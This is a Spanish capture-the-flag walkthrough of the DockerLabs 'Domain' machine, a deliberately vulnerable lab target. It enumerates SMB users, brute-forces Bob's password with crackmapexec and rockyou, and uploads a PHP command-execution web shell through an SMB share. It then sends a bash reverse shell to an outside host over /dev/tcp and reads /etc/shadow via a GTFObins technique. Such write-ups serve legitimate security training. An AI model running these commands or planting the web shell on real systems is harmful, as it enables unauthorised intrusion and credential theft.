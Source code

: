 Información
Máquina: Domain
Creador: El Pingüino de Mario
SO: Linux
Dificultad: Medium
Esta máquina está alojada en DockersLabs, una nueva plataforma creada por ElPingüinoDeMario con un concepto diferente al que estamos acostumbrados, en lugar de conectarnos a una vpn o virtualizar una máquina se realiza la conexión a la máquina vulnerable a través de Docker, pudiendo correr en la propia máquina atacante la víctima, una muy buena idea para ahorrar recursos.

El tutorial para poder realizar estas máquinas se encuentra aquí

Comenzamos realizando un ping para confirmar visibilidad entre máquinas


Realizamos un nmap para descubrir que servicios están corriendo en la máquina


Vemos que hay un servidor web Apache y un servidor samba corriendo.


Samba es una suite de aplicaciones Unix que habla el protocolo SMB (Server Message Block). Los sistemas operativos Microsoft Windows y OS/2 utilizan SMB para compartir por red archivos e impresoras y para realizar tareas asociadas.

En la web nos encontramos una breve explicación de qué es samba y para qué se usa.

Realizo un fuzzeo en busca de directorios, subdirectorios y subdominios interesantes pero sin éxito.

Nos centramos en el servidor smb, lanzamos enum4linux, para una posible enumeración de usuarios

enum4linux 172.17.0.2

Descubrimos dos usuarios: James y Bob

Creamos un diccionario con los dos nombres para realizar fuerza bruta con crackmapexec

crackmapexec smb 172.17.0.2 -u users.txt -p /usr/share/wordlists/rockyou.txt
-----------------------------------------------------------------------------------
SMB         172.17.0.2      445    86B2D8C57A0E     [+] 86B2D8C57A0E\bob:star 
Conseguimos las credenciales para bob: bob@star

smbmap -H 172.17.0.2 -u 'bob' -p 'star'

Nos encontramos con que bob tiene permisos para modificar la carpeta html del servidor Apache, vamos a intentar subir un archivo PHP para realizar RCE.

Para acceder al recurso en el servidor smb usamos el comando:

smbclient //172.17.0.2/html -U bob

Hacemos una pequeña prueba subiendo un archivo con el comando ‘put’


Llamamos al archivo y comprobamos que funciona correctamente


Modificamos nuestro archivo rce.php subiendo un cmd para realizar el RCE

<?php
        system($_GET['cmd']);
?>
Volvemos a realizar la comprobación:


Procedemos a enviar una revshell

bash -c "bash -i >%26 /dev/tcp/192.168.0.84/4444 0>%261"

Conseguimos una shell como el usuario www-data, nos cambiamos al usuario bob y comprobamos los privilegios.

 

Pruebo a leer el /etc/shadow desde nano con este procedimiento de GTFObins



No somos capaces de leerlo, sin embargo haciendo la llamada directamente con el binario sí somos capaces de leer el shadow.
